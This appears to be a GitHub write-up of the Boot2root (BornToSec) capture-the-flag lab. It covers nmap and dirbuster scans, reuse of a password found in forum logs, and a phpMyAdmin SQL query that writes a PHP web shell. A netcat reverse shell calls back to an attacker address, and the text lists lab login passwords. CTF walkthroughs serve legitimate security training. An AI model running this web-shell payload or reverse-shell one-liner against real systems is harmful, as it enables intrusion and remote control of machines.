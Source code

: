 # Boot2root

### Scan Nmap

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-13 09:31 UTC
Nmap scan report for 192.168.56.101
Host is up (0.00028s latency).
Not shown: 994 closed tcp ports (reset)
PORT    STATE SERVICE    VERSION
21/tcp  open  ftp        vsftpd 2.0.8 or later
|_ftp-anon: got code 500 "OOPS: vsftpd: refusing to run with writable root inside chroot()".
22/tcp  open  ssh        OpenSSH 5.9p1 Debian 5ubuntu1.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 07:bf:02:20:f0:8a:c8:48:1e:fc:41:ae:a4:46:fa:25 (DSA)
|   2048 26:dd:80:a3:df:c4:4b:53:1e:53:42:46:ef:6e:30:b2 (RSA)
|_  256 cf:c3:8c:31:d7:47:7c:84:e2:d2:16:31:b2:8e:63:a7 (ECDSA)
80/tcp  open  http       Apache httpd 2.2.22 ((Ubuntu))
|_http-title: Hack me if you can
|_http-server-header: Apache/2.2.22 (Ubuntu)
143/tcp open  imap       Dovecot imapd
|_imap-capabilities: more capabilities IDLE IMAP4rev1 STARTTLS LOGINDISABLEDA0001 have post-login listed OK SASL-IR LOGIN-REFERRALS LITERAL+ ID Pre-login ENABLE
|_ssl-date: 2025-02-13T09:32:31+00:00; -1s from scanner time.
443/tcp open  ssl/http   Apache httpd 2.2.22
|_ssl-date: 2025-02-13T09:32:31+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=BornToSec
| Not valid before: 2015-10-08T00:19:46
|_Not valid after:  2025-10-05T00:19:46
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: 404 Not Found
993/tcp open  ssl/imaps?
|_ssl-date: 2025-02-13T09:32:31+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=localhost/organizationName=Dovecot mail server
| Not valid before: 2015-10-08T20:57:30
|_Not valid after:  2025-10-07T20:57:30
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.95%E=4%D=2/13%OT=21%CT=1%CU=38008%PV=Y%DS=2%DC=T%G=Y%TM=67ADBC3
OS:0%P=x86_64-unknown-linux-gnu)SEQ(SP=11%GCD=FA00%ISR=9C%TI=I%CI=I%TS=U)OP
OS:S(O1=MFFC8%O2=MFFC8%O3=MFFC8%O4=MFFC8%O5=MFFC8%O6=MFFC8)WIN(W1=FFFF%W2=F
OS:FFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FFFF)ECN(R=Y%DF=N%T=40%W=FFFF%O=MFFC8%CC=
OS:N%Q=)T1(R=Y%DF=N%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=N%T=
OS:FF%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=N%T=40%W=FFFF%S=Z%A=S+%F=AR%O=%R
OS:D=0%Q=)T6(R=Y%DF=N%T=FF%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=N)U1(R=Y%DF=N%T=
OS:FF%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=N) 
```

### Scan Dirbuster

```
Dir found: /cgi-bin/ - 403
Dir found: /forum/ - 200
Dir found: /icons/ - 403
Dir found: /phpmyadmin/ - 200
File found: /forum/index.php - 200
Dir found: /forum/themes/ - 200
Dir found: /forum/themes/default/ - 200
Dir found: /forum/themes/default/images/ - 200
Dir found: /forum/js/ - 200
File found: /forum/js/main.min.js - 200
File found: /phpmyadmin/url.php - 200
File found: /phpmyadmin/Documentation.html - 200
Dir found: /webmail/ - 302
```

### Forum

#### Index
![screenshot](screen/forumIndex.png)

#### Problem login --> author lmezard
![screenshot](screen/forumLogs.png)

#### Password ??? --> ```!q\]Ej?*5K5cy*AJ```

#### Connected
```
Pseudo: lmezard
Password: !q\]Ej?*5K5cy*AJ
```
![screenshot](screen/lmezardProfile.png)

#### Get email

```
Dir found: /webmail/
Email: laurie@borntosec.net
Password: !q\]Ej?*5K5cy*AJ
```

![screenshot](screen/webmailIndex.png)

#### DB access
![screenshot](screen/webmailDBaccess.png)

#### Connected on phpmyadmin with root user !
![screenshot](screen/Userinfophpmyadmin.png)


#### Send request sql on `/var/www/forum/template_c/`
```
SELECT '<?php system($_GET["payload"]); ?>' INTO OUTFILE "/var/www/forum/templates_c/exploit.php"
```
![screenshot](screen/SQLrequest.png)

#### Testing vulnerability
![screenshot](screen/testvulnerability.png)

![screenshot](screen/vulnOK.png)

#### Exploit with reverse shell 
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.56.1 9999 >/tmp/f

URL encode: rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%20192.168.56.1%209999%20%3E%2Ftmp%2Ff

https://192.168.56.101:443/forum/templates_c/exploit.php?payload=

https://192.168.56.101:443/forum/templates_c/exploit.php?payload=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%20192.168.56.1%209999%20%3E%2Ftmp%2Ff

```

```
Listen with nc: 

nc -lnvp 9999
```

#### SHELL access !!!
![screenshot](screen/SHELL.png)

#### ls -lra /home
![screenshot](screen/lsHOME.png)

#### LOOKATME file --> get password for lmezard shell
![screenshot](screen/LOOKATMEFILE.png)

#### Get interactive shell with python
```
python -c 'import pty; pty.spawn("/bin/bash")'
Login: lmezard
Password: G!@M6f4Eatau{sF"
```
![screenshot](screen/TTYshell.png)